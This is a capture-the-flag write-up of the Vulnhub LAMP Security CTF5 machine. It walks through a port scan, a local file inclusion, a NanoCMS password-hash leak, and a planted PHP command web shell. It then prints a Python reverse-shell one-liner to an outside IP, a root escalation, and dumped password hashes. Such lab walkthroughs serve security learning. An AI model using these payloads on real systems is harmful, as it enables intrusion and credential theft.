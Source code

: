 ```yaml
---
layout: post
title:	"Lamp Security CTF5 Writeup"
date:	2016-12-20 21:30:00
categories:
    - blog
tags:
    - vulnhub
---
```


LAMP security CTF5 is a funny and easy CTF with a lot of vulnerabilities. You can find info about it on [Vulnhub.com](https://vulnhub.com).

I ran nmap to see which services were open:

~~~
Syrion:~ syrion$ sudo nmap -sT -sV -O ctf04.root-me.org
Password:

Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-13 22:39 CEST
Nmap scan report for ctf04.root-me.org (212.129.29.186)
Host is up (0.078s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 4.7 (protocol 2.0)
25/tcp   open  smtp        Sendmail 8.14.1/8.14.1
80/tcp   open  http        Apache httpd 2.2.6 ((Fedora))
110/tcp  open  pop3        ipop3d 2006k.101
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X – 4.X (workgroup: MYGROUP)
143/tcp  open  imap        University of Washington IMAP imapd 2006k.396 (time zone: -0400)
445/tcp  open  netbios-ssn Samba smbd 3.X – 4.X (workgroup: MYGROUP)
901/tcp  open  http        Samba SWAT administration server
3306/tcp open  mysql       MySQL 5.0.45
Device type: WAP|general purpose|media device|broadband router|PBX
Running (JUST GUESSING): Linux 2.4.X|2.6.X (95%), Sony embedded (95%), Starbridge Networks embedded (95%), Asus embedded (94%), Cisco embedded (94%)
OS CPE: cpe:/o:linux:linux_kernel:2.4.30 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:sony:smp-n200 cpe:/o:linux:linux_kernel:2.6 cpe:/h:starbridge_networks:1531 cpe:/h:asus:rt-ac66u cpe:/h:asus:rt-n16 cpe:/h:cisco:uc320
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (95%), Linux 2.6.27 (95%), Linux 2.6.9 – 2.6.27 (95%), Sony SMP-N200 media player (95%), Linux 2.6.21 (95%), Starbridge Networks 1531 wireless ASDL modem (95%), Linux 2.6.18 (95%), Tomato 1.28 (Linux 2.6.22) (95%), Asus RT-AC66U router (Linux 2.6) (94%), Asus RT-N16 WAP (Linux 2.6) (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 15 hops
Service Info: Hosts: localhost.localdomain, 10.66.4.100; OS: Unix
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.66 seconds
~~~

How we can see there were a lot of services, but first let’s see the website on port 80. I found a Local File Inclusion (LFI) Vulnerability:

~~~
Warning: include_once(inc/pagina.php.php) [function.include-once]: failed to open stream: No such file or directory in /var/www/html/index.php on line 6

Warning: include_once() [function.include]: Failed opening ‘inc/pagina.php.php’ for inclusion (include_path=’.:/usr/share/pear:/usr/share/php’) in /var/www/html/index.php on line 6
~~~

The warning “include_once(inc/pagina.php.php)” helped me to understand I needed a null byte:

![Screenshot]({{ site.baseurl }}/images/posts/2016/2016-12-20-lamp-security-ctf5-writeup/img1.png)

Ok, I found a LFI but i needed to upload something for run code. On blog page there was this NanoCMS:

![Screenshot]({{ site.baseurl }}/images/posts/2016/2016-12-20-lamp-security-ctf5-writeup/img2.png)

I found this [vulnerability](http://www.securityfocus.com/bid/34508) for NanoCMS (DirBuster found the same file):

![Screenshot]({{ site.baseurl }}/images/posts/2016/2016-12-20-lamp-security-ctf5-writeup/img3.png)

Ok I got the username and password hash:

![Screenshot]({{ site.baseurl }}/images/posts/2016/2016-12-20-lamp-security-ctf5-writeup/img4.png)

Authentication was successful, I created a new page containing a classic “<?php passthru($_GET[“cmd”]); ?>”:

![Screenshot]({{ site.baseurl }}/images/posts/2016/2016-12-20-lamp-security-ctf5-writeup/img5.png)

I got a reverse shell on netcat by using this payload:


~~~
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect((“10.0.0.1”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”])
~~~

After some local enumeration, I discovered that the OS was vulnerable to this [exploit](http://www.exploit-db.com/exploits/9479/):

~~~
bash-3.2# id
id
uid=0(root) gid=0(root) groups=48(apache) context=system_u:system_r:httpd_t:s0
bash-3.2# cat /passwd
cat /passwd
237709daa3a06bde0355ff93a9de0ca9
bash-3.2#
~~~

There were much interesting things in the system, for example:

* samba users enumeration
* database credentials (LFI on configuration file of another blog)
* database content:

~~~
+—–+———-+————+———————————-+
| uid | name | login | pass |
+—–+———-+————+———————————-+
| 0 | | 0 | |
| 1 | jennifer | 1241021410 | e3f4150c722e6376d87cd4d43fef0bc5 |
| 2 | patrick | 1475888924 | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 3 | andy | 1241021903 | b64406d23d480b88fe71755b96998a51 |
| 4 | loren | 0 | 6c470dd4a0901d53f7ed677828b23cfd |
| 5 | amy | 0 | e5f0f20b92f7022779015774e90ce917 |
+—–+———-+————+———————————-+
~~~

Bye bye!!!
